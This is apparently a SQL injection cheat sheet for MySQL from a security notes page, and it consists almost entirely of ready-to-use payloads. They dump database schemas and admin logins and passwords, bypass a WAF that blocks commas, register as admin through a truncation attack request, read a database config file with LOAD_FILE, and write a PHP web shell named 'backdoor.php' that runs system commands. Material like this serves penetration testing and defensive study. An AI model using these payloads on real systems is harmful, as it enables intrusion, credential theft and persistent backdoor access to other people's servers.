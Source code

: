 MySQL:

```
id=1' UNION SELECT 1,(SELECT (@a) FROM (SELECT (@a:=0x00),(SELECT (@a) FROM (information_schema.columns) WHERE (@a) IN (@a:=concat(@a,'<font color=red>',table_schema,'</font>',' ::: ','<font color=green>',table_name,'</font>','<br>'))))a);-- -

SELECT (@a) FROM (
	SELECT(@a:=0x00), (
		SELECT (@a) FROM (information_schema.schemata)
		WHERE (@a) IN (@a:=concat(@a,schema_name,'\n'))
	)
) foo
```

```
id=1' UNION SELECT 1,(SELECT (@a) FROM (SELECT (@a:=0x00),(SELECT (@a) FROM (mytable.users) WHERE (@a) IN (@a:=concat(@a,':::',id,':::',login,':::',password)) AND is_admin='1'))a);-- -
```



### Truncation Attack

* [www.youtube.com/watch?v=F1Tm4b57ors](https://www.youtube.com/watch?v=F1Tm4b57ors)

```
POST /index.php HTTP/1.1
Host: 127.0.0.1

name=j1v37u2k3y&email=admin%example.com++++++++++11&password=qwe12345
```



### Commas blocked by WAF

```
id=-1' UNION SELECT * FROM (SELECT 1)a JOIN (SELECT table_name from mysql.innodb_table_stats)b ON 1=1#
```



### Write File

```
id=1' UNION ALL SELECT 1,2,3,4,"<?php if(isset($_REQUEST['c'])){system($_REQUEST['c'].' 2>&1' );} ?>",6 INTO OUTFILE 'C:\\Inetpub\\wwwroot\\backdoor.php';#
```



### Read File

```
id=1' UNION ALL SELECT LOAD_FILE('c:\\xampp\\htdocs\\admin\\db.php'),2,3-- -
```

